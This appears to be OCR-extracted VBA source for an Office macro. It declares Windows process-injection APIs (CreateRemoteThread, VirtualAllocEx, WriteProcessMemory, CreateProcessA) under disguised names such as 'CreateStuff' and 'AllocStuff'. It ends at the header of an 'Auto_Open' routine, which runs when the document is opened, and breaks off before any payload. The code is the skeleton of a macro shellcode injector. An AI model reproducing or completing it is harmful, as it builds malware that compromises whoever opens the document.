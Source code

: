 Result:

```vba
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
```